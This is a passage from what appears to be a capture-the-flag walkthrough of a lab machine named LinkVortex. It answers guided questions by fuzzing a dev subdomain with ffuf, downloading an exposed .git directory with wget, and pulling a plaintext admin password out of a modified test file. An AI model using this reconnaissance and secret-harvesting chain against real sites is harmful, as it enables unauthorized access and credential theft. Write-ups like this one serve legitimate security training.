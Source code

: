 ```
<snip>
```
Q3: What is the name of the directory that is exposed on the dev subdomain that allows access to the site's source code?
- run ffuf again against the found vhost, 
- we found `.git` 
- git usually contains app codes 
```
$ ffuf -u http://dev.linkvortex.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dev.linkvortex.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 317ms]
<snip>
```
- we can try download `.git` to our end and investigate further
- found a great article on explaining how to enumerate git: https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37
```
$: wget --mirror -I .git  http://dev.linkvortex.htb/.git/
```
Q4: What is the bob user's password for the Ghost admin panel?
- we can check a couple of things, first thing ive checked is `git status`
```
 git status 
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   Dockerfile.ghost
        modified:   ghost/core/test/regression/api/admin/authentication.test.js

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    .editorconfig
<snip>
```
- the modified file named authentication.test.js looks interesting
- upon further investigation it contains the password 
```
$ cat ghost/core/test/regression/api/admin/authentication.test.js               
<snip>
        it('complete setup', async function () {
            const email = 'test@example.com';
            const password = 'OctopiFociPilfer45';

```
